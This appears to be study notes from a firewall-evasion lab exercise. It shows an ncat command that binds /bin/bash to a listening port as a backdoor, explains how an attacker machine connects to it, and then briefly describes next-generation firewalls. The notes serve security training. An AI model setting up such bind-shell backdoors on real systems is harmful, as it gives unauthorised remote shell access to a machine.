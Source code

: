 ![img](./assets/ef6b903dbb6c4eb20051f9ddd5b9fa8f.png)

# Evasion Using Non-Standard Ports                            

`ncat -lvnp PORT_NUMBER -e /bin/bash` will create a backdoor via the specified port number that lets you interact with the Bash shell.

- `-e` or `--exec` executes the given command
- `/bin/bash` location of the command we want to execute

On the AttackBox, we can run `ncat MACHINE_IP PORT_NUMBER` to connect to the target machine and interact with its shell.

Considering the case that we have a firewall, it is not enough to use `ncat` to create a backdoor unless we can connect to the listening port number. Moreover, unless we run `ncat` as a privileged user, `root`, or using `sudo`, we cannot use port numbers below 1024.

# Next-Generation Firewalls                            

Traditional firewalls, such as packet-filtering firewalls, expect a  port number to dictate the protocol being used and identify the  application. Consequently, if you want to block an application, you need to block a port. Unfortunately, this is no longer valid as many  applications camouflage themselves using ports assigned for other  applications. In other words, a port number is no longer enough nor  reliable to identify the application being used. Add to this the  pervasive use of encryption, for example, via SSL/TLS.
